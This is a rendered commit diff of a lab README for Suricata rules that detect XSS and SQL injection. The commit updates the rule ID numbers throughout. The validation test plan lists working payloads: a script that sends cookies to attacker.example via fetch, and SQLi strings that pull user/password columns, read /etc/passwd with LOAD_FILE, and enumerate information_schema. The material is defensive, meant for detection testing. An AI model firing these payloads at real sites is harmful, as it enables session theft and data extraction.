

Before and after one commit to dzipsin/p000774csitcp, a Markdown page: lab/suricata/README.md, 3 parts joined by grey strips. Shown at 93% size. Rendered like a GitHub page.

Commit message:
docs: realign README SID numbers with renumbered rules (SQLi 1001xxx, XSS 1002xxx)
The rule files were renumbered to non-colliding ranges (SQLi 1001001-1001013,
XSS 1002001-1002058) but both READMEs still cited the old 1000xxx SIDs - the
files table, the SQLi priority-tier ranges, and every per-payload "fires sid"
reference in the validation test plan. Updated all of them to match the rules
(verified each SID->signature mapping against the .rules files). Payloads
themselves are unchanged.

````diff
--- a/lab/suricata/README.md
+++ b/lab/suricata/README.md
@@ -8,10 +8,10 @@ Team-authored Suricata rules for XSS and SQL-injection detection. The lab runs t
 
 | File | Rules | SID range |
 |------|-------|-----------|
-| `xss_alerts.rules` | 58 | `1000001-1000058` |
-| `sqli_alerts.rules` | 13 | `1000101-1000113` |
+| `xss_alerts.rules` | 58 | `1002001-1002058` |
+| `sqli_alerts.rules` | 13 | `1001001-1001013` |
 
-Both files sit in the standard user-rule range (`1000000-1999999`), clear of the ET Open reserved range (`2000000-2999999`).
+Both files sit in the standard user-rule range (`1000000-1999999`), clear of the ET Open reserved range (`2000000-2999999`). SQLi uses `1001xxx` and XSS uses `1002xxx` so the two sets never collide.
 
 ---
 
@@ -37,9 +37,9 @@ Both rulesets use a three-tier `priority:` scheme. Suricata maps `priority:N` to
 
 | Tier | SIDs | Behaviour matched |
 |------|------|--------------------|
-| P1 | 1000101-1000104 | Confirmed exploit / extraction: `UNION SELECT` (URI + POST), DB function calls (`version()`, `database()`, `user()`, `schema()`), OS-command primitives (`xp_cmdshell`, `LOAD_FILE`, `INTO OUTFILE/DUMPFILE`). |
-| P2 | 1000105-1000109 | Clear injection structure: boolean-blind (`OR 1=1`), time-blind (`SLEEP`, `WAITFOR DELAY`, `pg_sleep`, `BENCHMARK`), comment sequences (`--`, `#`, `/*`), `information_schema` enumeration. |
-| P3 | 1000110-1000113 | Wide net: SQL keyword + quote combinations in URI / POST / headers, URL-encoded SQLi characters. |
+| P1 | 1001001-1001004 | Confirmed exploit / extraction: `UNION SELECT` (URI + POST), DB function calls (`version()`, `database()`, `user()`, `schema()`), OS-command primitives (`xp_cmdshell`, `LOAD_FILE`, `INTO OUTFILE/DUMPFILE`). |
+| P2 | 1001005-1001009 | Clear injection structure: boolean-blind (`OR 1=1`), time-blind (`SLEEP`, `WAITFOR DELAY`, `pg_sleep`, `BENCHMARK`), comment sequences (`--`, `#`, `/*`), `information_schema` enumeration. |
+| P3 | 1001010-1001013 | Wide net: SQL keyword + quote combinations in URI / POST / headers, URL-encoded SQLi characters. |
 
 ---
 
@@ -100,41 +100,41 @@ sudo tail -f /var/log/suricata/eve.json \
 ### XSS payloads - target a reflected XSS endpoint
 
 ```text
-# P1 cookie exfiltration via fetch - fires sid 1000001/1000002
+# P1 cookie exfiltration via fetch - fires sid 1002001/1002002
 <script>fetch('http://attacker.example/?c='+document.cookie)</script>
 
-# P1 script + eval - fires sid 1000015-1000017
+# P1 script + eval - fires sid 1002015-1002017
 <script>eval('alert(1)')</script>
 
-# P2 URL-encoded script tag - fires sid 1000040
+# P2 URL-encoded script tag - fires sid 1002040
 %3Cscript%3Ealert(1)%3C%2Fscript%3E
 
-# P3 img with onerror - fires sid 1000055/1000057
+# P3 img with onerror - fires sid 1002055/1002057
 <img src=x onerror=alert(1)>
 ```
 
 ### SQLi payloads - target a SQL injection endpoint (`?id=<payload>`)
 
 ```text
-# P1 UNION SELECT - fires sid 1000101
+# P1 UNION SELECT - fires sid 1001001
 1' UNION SELECT user, password FROM users#
 
-# P1 DB function call - fires sid 1000103
+# P1 DB function call - fires sid 1001003
 1' AND version()#
 
-# P1 OS command primitive - fires sid 1000104
+# P1 OS command primitive - fires sid 1001004
 1' UNION SELECT LOAD_FILE('/etc/passwd')#
 
-# P2 boolean-blind - fires sid 1000105 (and 1000108 for comment)
+# P2 boolean-blind - fires sid 1001005 (and 1001008 for comment)
 1' OR 1=1#
 
-# P2 time-blind - fires sid 1000106
+# P2 time-blind - fires sid 1001006
 1' OR SLEEP(5)#
 
-# P2 information_schema enumeration - fires sid 1000109 (and 1000101)
+# P2 information_schema enumeration - fires sid 1001009 (and 1001001)
 1' UNION SELECT table_name,1 FROM information_schema.tables#
 
-# P3 keyword + quote - fires sid 1000110
+# P3 keyword + quote - fires sid 1001010
 1' SELECT 1
 ```
 
````
Also changed, not shown: README.md (+2 -2 lines).
